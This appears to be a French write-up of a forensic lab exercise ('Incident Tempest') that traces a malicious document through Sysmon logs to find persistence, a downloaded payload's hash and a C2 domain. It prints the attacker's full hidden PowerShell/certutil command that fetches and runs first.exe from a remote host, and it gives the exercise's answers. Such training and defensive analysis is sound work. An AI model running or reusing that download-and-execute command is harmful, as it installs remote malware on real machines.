


# Incident Tempest

D'après les premières constatations, il existe une **exécution de stage 2** :

- Le document a exécuté avec succès une **commande encodée en base64**.
- Le décodage de cette chaîne révèle la **chaîne de commandes exacte** exécutée par le document malveillant.

## Guide d'investigation

Avec ces découvertes, on peut se référer de nouveau à l'aide-mémoire pour poursuivre l'investigation :

- L'exécution au démarrage (Autostart) a **`explorer.exe`** comme processus parent (parent process ID).
- Les **processus enfants de `explorer.exe`** dans la fenêtre temporelle de l'événement peuvent être significatifs.
- Les événements suivants, survenus **après l'exécution du document**, méritent d'être vérifiés :
  - **Event ID 1** : création de processus (Process Creation)
  - **Event ID 11** : création de fichier (File Creation)

### Question :

1 - L'exécution malveillante de la charge utile a entraîné l'écriture d'un fichier sur le système. Quel est le chemin d'accès complet de la charge utile ?

Dans la partie 2, la chaine en base64 fait mention d'un fichier update.zip :

réponse : C:\Users\benimaru\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup

2 - La charge utile implantée s'exécute une fois que l'utilisateur se connecte à la machine. Quelle est la commande exécutée lors de la connexion réussie de l'utilisateur compromis ?

On sait qu'avec l'execution au démarrage (Autostart), le parent est explorer.exe
À l’ouverture de session, c’est explorer.exe (le shell Windows) qui lance tout ce qui se trouve dans le dossier Startup. 
On met donc un filtre l'utilisateur benimaru et un autre sur le parent explorer.exe.

réponse : C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -w hidden -noni certutil -urlcache -split -f 'http://phishteam.xyz/02dcf07/first.exe' C:\Users\Public\Downloads\first.exe; C:\Users\Public\Downloads\first.exe

3 - D'après les journaux Sysmon, quel est le hash SHA256 du binaire malveillant téléchargé pour l'exécution de la deuxième étape ?

Le nom du binaire malveillant se nomme first.exe. On récupére son hash SHA256 dans SysmonView :

réponse : CE278CA242AA2023A4FE04067B0A32FBD3CA1599746C160949868FFC7FC3D7D8

4 - La charge utile de deuxième étape téléchargée établit une connexion avec un serveur de commande et de contrôle (C2). Quel est le domaine et quel est le port utilisés par l'attaquant ?

Sur la photo de la question 3 on voit qu'il y a plusieurs requête DNS vers un domaine suspect : resolvecyber.xyz

réponse au format domain:port : resolvecyber.xyz:80

